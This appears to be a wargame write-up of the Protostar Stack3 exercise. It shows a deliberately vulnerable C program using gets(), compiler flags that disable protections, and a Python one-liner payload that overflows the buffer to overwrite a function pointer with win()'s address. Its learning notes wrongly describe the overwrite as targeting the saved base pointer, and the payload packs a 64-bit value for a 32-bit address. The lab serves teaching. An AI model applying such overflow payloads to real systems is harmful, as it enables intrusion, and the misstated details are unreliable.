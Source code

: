 # Objective

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

# Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <err.h>

extern char *get(char *);

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

# Explanation

1. Compile :
```bash
gcc -m32 -fno-stack-protector -g -z execstack -no-pie Stackthree.c -o Stackthree
```

2. Find win address : 
```bash
objdump -d Stackthree | grep "<win>"
0x8049186
```
![Win](Images/WinAddress.png)

We can see that we have `fp` is located directly after `buffer`. Therefore we can overwrite it by entering 64 A's and inserting the `win` address `0x8049186`.

3. craft payload and test it :
```bash
python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<Q",0x8049186))' | ./Stack3
```
![Yes](Images/Success.png)

-----------------------------------------------------------------------------------------------------------------------------------------

# What I learned

- Located the exact address of win() with `objdump -d ./stack3 | grep "<win>"`, the key starting point for building the payload.
- Exploited the buffer overflow to overwrite the saved base pointer, so the function’s return jumps straight to win(), hijacking program flow.

# Ce que j'ai appris

- Repéré l’adresse précise de win() avec `objdump -d ./stack3 | grep "<win>"`, étape clé pour fabriquer le payload.
- Exploité le dépassement de tampon pour écraser le pointeur de base sauvegardé, de sorte que le retour de fonction saute directement vers win() et détourne le flux du programme.
